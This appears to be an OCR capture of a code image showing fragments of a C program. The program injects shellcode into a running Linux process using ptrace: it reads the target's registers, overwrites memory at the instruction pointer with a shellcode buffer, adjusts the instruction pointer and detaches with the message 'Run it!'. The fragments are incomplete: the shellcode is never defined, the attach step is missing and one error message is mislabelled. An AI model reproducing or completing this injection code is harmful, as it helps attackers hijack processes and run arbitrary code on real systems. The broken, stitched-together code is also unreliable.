 ```
  
  
  
  
  
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
{
  int      i;
  uint32_t *s = (uint32_t *) src;
  uint32_t *d = (uint32_t *) dst;
 
  for (i = 0; i < len; i+=4, s++, d++)
    {
      if ((ptrace (PTRACE_POKETEXT, pid, d, *s)) < 0)
    {
      perror ("ptrace(POKETEXT):");
      return -1;
    }
    }
  return 0;
}
  
  
  
 
 
  
printf ("+ Getting Registers\n");
  if ((ptrace (PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
 
  printf ("+ Injecting shell code at %p\n", (void*)regs.rip);
  inject_data (target, shellcode, (void*)regs.rip, SHELLCODE_SIZE);
  regs.rip += 2;          
  
  
  
  
  
 
  printf ("+ Setting instruction pointer to %p\n", (void*)regs.rip);
  if ((ptrace (PTRACE_SETREGS, target, NULL, &regs)) < 0)
    {
      perror ("ptrace(GETREGS):");
      exit (1);
    }
  printf ("+ Run it!\n");
 
  if ((ptrace (PTRACE_DETACH, target, NULL, NULL)) < 0)
    {
      perror ("ptrace(DETACH):");
      exit (1);
    }
  return 0;
}
```
